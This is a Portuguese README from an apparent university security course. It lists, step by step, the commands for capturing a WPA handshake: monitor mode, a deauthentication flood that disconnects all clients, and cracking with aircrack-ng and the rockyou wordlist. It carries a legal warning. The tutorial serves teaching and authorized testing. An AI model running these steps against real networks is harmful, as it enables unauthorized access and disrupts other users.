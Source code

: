 # <p align="center">Disciplina de Segurança da Informação do Instituto Federal do Piaui</p>
# <p align="center">ATAQUE WPA CAPTURANDO HANDSHAKE COM FORÇA BRUTA
</p>

---

## <p style="color:red" align="justify">Atenção: Tentar realizar esse procimento em uma rede não autorizada resulta-se em crime. Este procedimento deve ser usado apenas para fins educacionais e testes de segurança em redes que você tem permissão para acessar.</p>

## Vídeo Tutorial [Youtube](https://youtu.be/z6vb1Fl77cg)

## <p align="justify">Este tutorial mostra o passo a passo para capturar o handshake WPA e tentar quebrar a senha da rede usando um dicionário de senhas.</p>
---

### Comandos a serem seguidos
- [ ] **ip address**
    - Comando para identificar e analisar as interfaces de redes
- [ ] **iwconfig**
    - Comando específico para identificar e analisar interfaces sem fio
- [ ] **sudo airmon-ng check kill**
    - Comando serve para parar processos que atrapalham o modo monitor da placa Wi-Fi.
- [ ] **sudo airmon-ng start wlan0**
    - Comando serve para colocar a placa Wi-Fi em modo monitor.
- [ ] **iwconfig**
    - somente para conferir se está em modo monitor
- [ ] **sudo airodump-ng wlan0mon**
    - comando serve para iniciar a captura de pacotes Wi-Fi com a interface em modo monitor
- [ ] **sudo airodump-ng wlan0mon -c 1 --bssid xx:xx:xx:xx:xx:xx**
    - comando serve focar em uma rede específica e capturar o Handshake WPA (se alguém se conectar), pacotes de dados e informações dos dispositivos conectados
- [ ] **sudo airodump-ng -w arquivocaptura -c 1 --bssid AA:83:89:E8:B6:CA wlan0mon** (permanecer em execução)
    - Esse comando foca exclusivamente na rede Wi-Fi alvo e salva os pacotes capturados

- [ ] **sudo aireplay-ng --deauth 0 -a xx:xx:xx:xx:xx:xx wlan0mon**
    - é usado para forçar a desconexão de todos os clientes conectados a uma rede Wi-Fi, com o objetivo de capturar o handshake WPA/WPA2 quando eles se reconectarem.

- [ ] **sudo aircrack-ng arquivocaptura-01.cap -w ~/rockyou.txt**
    - Lê o arquivo .cap onde está o handshake WPA/WPA2 e testa cada senha do arquivo rockyou.txt e compara com os dados do handshake se a senha correta estiver na lista será exibida na tela. Fim!
